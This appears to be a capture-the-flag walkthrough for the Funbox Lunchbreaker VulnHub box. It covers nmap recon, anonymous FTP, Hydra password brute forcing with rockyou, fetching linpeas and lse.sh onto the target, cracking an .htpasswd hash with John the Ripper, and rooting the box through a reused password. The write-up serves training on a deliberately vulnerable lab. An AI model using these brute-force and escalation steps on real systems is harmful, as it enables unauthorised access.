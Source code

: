 # **Description**

It's a box for beginners and can be pwned in the lunch break.
This works better with VirtualBox rather than Vmware.

Discovering the Target IP address

┌──(kali㉿kali)-[~/Downloads/vulnhub/FunboxLunchBreaker]
└─$ sudo netdiscover -r 192.168.0.100/24 

![Markdown Logo](Images/Screenshot_30.png)

## **Active Reconnaissance** 

Running Nmap scan to discover open ports

Three ports are open

PORT   STATE SERVICE
* 21/tcp open  ftp
* 22/tcp open  ssh
* 80/tcp open  http


└─$ `sudo nmap -sV -O -A -T4 192.168.0.179` 

![My Sample Image](Images/Screenshot_31.png)


## **FTP Anonymous login**

Since FTP port is open and it allows anonymous login
Login to the FTP server using anonymous as username 

![My Sample Image](Images/Screenshot_32.png)

Use get command to download both the .s3cr3t and supers3cr3t files to the local host current working directory.

![My Sample Image](Images/Screenshot_1.png)

The .s3cr3t file contains base64 encrypted message

Decrypting the message, we got the plaintext below;

_**If the radiance of a thousand suns / were to burst at once into the sky / that would be like / the splendor of the Mighty One and I am become Death, the shatterer of worlds**_ 

![My Sample Image](Images/Screenshot_2.png)

Decrypting the message in supers3cr3t file using this url below.

https://www.dcode.fr/brainfuck-language

We got the plaintext below;

**_Look deep into nature and then you will understand everything better._**

![My Sample Image](Images/Screenshot_3.png)

##  **Enumerate the web server**
No vital information was found login anonymously through ftp.
Investigate the web server if any vital info could be found.

![My Sample Image](Images/Screenshot_4.png)

Check the robots.txt file which tells search engine crawlers which URLs the crawler can access on your site.
It says dirb, gobuster tools should be disallowed, these are directory bruteforcing tools.

And allow WYSIWYG
**_"what you see is what you get"_**

![My Sample Image](Images/Screenshot_5.png)


Inspecting the element, possible username was found.

Possible username (jane) was found on the html comment tag

 webdesign by j.miller [jane@funbox8.ctf]

![My Sample Image](Images/Screenshot_6.png)

## **Bruteforce Attack**

Possible username jane, trying to get her password
Using Hydra command which is a password bruteforce tool with rockyou.txt wordlist
The password for jane was found.


Login to the ftp server using jane credentials.

![My Sample Image](Images/Screenshot_7.png)
															
There is a backups directory, cd to the backup directory.
There is a key.txt file in backups directory.
Using get command the file was downloaded to the local machine. 

![My Sample Image](Images/Screenshot_9.png)


The keys.txt file contains encrpted keys. No useful information on how to use the key for authentication.

![My Sample Image](Images/Screenshot_10.png)

There is home directory, cd to home.
Jane can read other directories in /home 
Directories of other users were found.

![My Sample Image](Images/Screenshot_11.png)

Create a file for the users.
Use Hydra command to bruteforce for their possible passwords.

![My Sample Image](Images/Screenshot_12.png)

$ `hydra -L users.txt -P ~/Downloads/rockyou.txt ftp://192.168.0.179 -t4`

![My Sample Image](Images/Screenshot_13.png)

Login to the ftp server using Jim credentials.
List all the directories under Jim  ls -al.
.ssh directory was checked and no useful information was found.

![My Sample Image](Images/Screenshot_14.png)

Login to the ftp server using Jules credentials.
cd to the .backups directory

![My Sample Image](Images/Screenshot_15.png)

There are wordlist files in the backups directory which might be useful to get the john password.
Use mget command to download all the wordlist files to the local machine.


![My Sample Image](Images/Screenshot_16.png)

Go to the current working directory on the local machine and list all the files there.
The wordlist files are hidden, use -al flag with ls command to list the hidden files.


![My Sample Image](Images/Screenshot_17.png)

We need to move the hidden files to the current working directory.
Use move command to move the wordlist files to the current working directory.

![My Sample Image](Images/Screenshot_18.png)

Reusing Jules' password to ssh into the machine
Check if Jules has sudo privilege.
Jules does not have sudo privilege.

![My Sample Image](Images/Screenshot_19.png)

Linpeas.sh and lse.sh were used to read security information and to search for possible paths to escalate privileges on the target machine. 

Linux smart enumeration is a shell script which will show relevant information about the security of the local Linux system, helping to escalate privileges.

https://github.com/diego-treitos/linux-smart-enumeration

wget "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -O lse.sh;chmod 700 lse.sh


Linux local Privilege Escalation Awesome Script (linPEAS) is a script that search for possible paths to escalate privileges on Linux/Unix hosts.


$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -O linpeas.sh


Copy  the lse.sh and linpeas.sh files to the target machine.
Start the python http-server. 


![My Sample Image](Images/Screenshot_20.png)

Use wget command to download the lse.sh and linpeas.sh files from the local machine to the target machine (funbox8)

wget http://192.168.0.165/lse.sh

wget http://192.168.0.179/linpeas.sh


Change the mode bits of the .sh files using chmod command.

chmod +x *.sh


![My Sample Image](Images/Screenshot_21.png)

From the local machine, you can see the two files being sent to the remote machine.

![My Sample Image](Images\Screenshot_22.png)

Run the lse.sh to see all the vital information about the security of the machine.
./lse.sh -l 1 -i |more

John has root privilege.

![My Sample Image](Images/Screenshot_23.png)

John password hash was found.

![My Sample Image](Images/Screenshot_24.png)

Copy the hash

Cat /srv/ftp/wordpress/wp-blog/.htpasswd

john:$apr1$2gymw37l$w604wlgyqqNeOgNac.1qT/

![My Sample Image](Images/Screenshot_25.png)

Create a file for the hash; john2hash

![My Sample Image](Images/Screenshot_26.png)

Use john the ripper command with the wordlists to find plaintext of the hash
Bad.passwd wordlist worked. zhnmju!!!

![My Sample Image](Images/Screenshot_27.png)

Since John's password is known, switch user to John.
There is a todo.list file in todo directory which list all the tasks John intend to perform.
One of the task says change ROOTPASSWD, because it is the same right now. This implies John is still using his account password for root password too.

![My Sample Image](Images/Screenshot_28.png)

Switch user to root and enter john's password as the password. We are at the root now.
There is a root.flag file, open the file to read its content using cat command.

![My Sample Image](Images/Screenshot_29.png)

